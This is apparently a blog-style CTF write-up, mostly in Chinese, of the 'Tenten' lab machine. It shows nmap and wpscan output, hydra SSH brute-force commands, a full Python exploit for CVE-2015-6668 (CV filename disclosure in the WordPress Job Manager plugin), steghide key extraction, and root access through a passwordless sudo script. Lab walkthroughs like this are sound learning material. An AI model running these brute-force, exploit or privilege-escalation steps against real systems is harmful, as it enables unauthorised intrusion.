 ```yaml
---
title: Tenten（sudo -l）
categories:
- CTF
tags:
- CTF
---
```

10.10.10.10

```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
command: `wpscan --url 10.10.10.10 --enumerate`

useful info: 
```
Apache/2.4.18 (Ubuntu)
WordPress version 4.7.3
valid user: takis
http://10.10.10.10/wp-login.php
```
- trying1
![1](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/1.PNG)
WordPress 2.3-4.8.3 - Host Header Injection in Password Reset

这是第二次遇到低版本wordpress，并验证主机头注入了，但第一次是邮件发送插件未安装，第二次直接500服务器错误。无语。

- trying2
takis，以该用户名，burp intruder尝试弱密码。

- trying3
openssh验证有效的用户，尝试弱密码
![2](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/2.PNG)

hydra -l takis -P /usr/share/wordlists/rockyou.txt 10.10.10.10 ssh
hydra -l takis -P /usr/share/wordlists/rockyou.txt -I 10.10.10.10 ssh -t 4

结果：
 [WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4

- trying4：exp查找
search type:exploit wordpress cve:2016

--- 
像这种cms，又没检查出弱密码，又没有检查出可用exp，菜的不行==

## writeup
当时我用wpscan，检查过了插件job manager。由于只有xss漏洞，所以没有在意。
![4](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/4.PNG)

32 vulnerabilities identified:     --》 wpscan扫描结果有32个漏洞，再加上youtube上看到一些0day的exp演示视频，高大上的不行。成功把我这只菜鸟给绕糊涂了。
![3](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/3.PNG)

https://vagmour.eu/cve-2015-6668-cv-filename-disclosure-on-job-manager-wordpress-plugin/

## exp
```
import requests

print """  
CVE-2015-6668  
Title: CV filename disclosure on Job-Manager WP Plugin  
Author: Evangelos Mourikis  
Blog: https://vagmour.eu  
Plugin URL: http://www.wp-jobmanager.com  
Versions: <=0.7.25  
"""  
website = raw_input('Enter a vulnerable website: ')  
filename = raw_input('Enter a file name: ')

filename2 = filename.replace(" ", "-")

for year in range(2016,2018):  
    for i in range(1,13):
        for extension in {'jpg','jpeg','png'}:
            URL = website + "/wp-content/uploads/" + str(year) + "/" + "{:02}".format(i) + "/" + filename2 + "." + extension
            req = requests.get(URL)
            if req.status_code==200:
                print "[+] URL of CV found! " + URL
```

![5](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/5.PNG)

```
wget 10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg

steghide extract -sf HackerAccessGranted.jpg

superpassword（通过hydra可得到）

chmod 400 id_rsa
ssh -i id_rsa takis@10.10.10.10

成功连接：
sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin

---
file /bin/fuckin
/bin/fuckin: Bourne-Again shell script, ASCII text executable

---
cat /bin/fuckin
#!/bin/bash
$1 $2 $3 $4
```
对bash script变量不是很熟悉，于是在本地写一个，运行试一下。

![6](https://raw.githubusercontent.com/Whale3070/Whale3070.github.io/master/images/05-01-03/6.PNG)

```
$1 代表给脚本传递的第一个参数

$2 传递的第二个参数，以此类推

sudo /bin/fuckin su
因为/bin/fuckin不需要输入密码，并且以root运行，所以运行了su，获得root用户。
```